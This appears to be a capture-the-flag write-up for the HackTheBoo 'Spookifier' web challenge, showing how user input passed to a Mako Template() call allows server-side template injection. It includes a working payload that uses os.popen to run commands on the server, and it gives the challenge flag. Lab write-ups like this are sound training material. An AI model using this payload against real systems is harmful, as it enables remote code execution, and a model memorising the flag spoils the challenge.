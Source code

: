 # HackTheBoo - Spookifier

* **Category:** Web
* **Points:** 200-1000

## Challenge

> There's a new trend of an application that generates a spooky name for you. Users of that application later discovered that their real names were also magically changed, causing havoc in their life. Could you help bring down this application?

## Solution
![image](https://user-images.githubusercontent.com/78451563/198273040-f00d5306-8031-4cd5-9a8d-7ed415bc1c11.png)

* In the `util.py` we can see the template (`Mako`) in use which could hint for a potential `SSTI` vuln.
* The function `Template()` is used on our results which we control therefore allows an attacker to include template code into an existing template.

[PayloadAllThings Mako](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#mako)

```python
>>> print(Template("${self.module.cache.util.os}").render())
<module 'os' from '/usr/local/lib/python3.10/os.py'>
```
*It seems that using `os.system` to run arbitary commands would only display the return code of the process for example 0, meaning Success*
* I modified the POC to use `popen` and `read` to execute and display.


![image](https://user-images.githubusercontent.com/78451563/198278004-a5ddbe2a-8477-46fe-a734-b97f2e347adf.png)

```python
${self.module.cache.util.os.popen('id').read()}
```


```
Flag: HTB{t3mpl4t3_1nj3ct10n_1s_$p00ky!!}
```
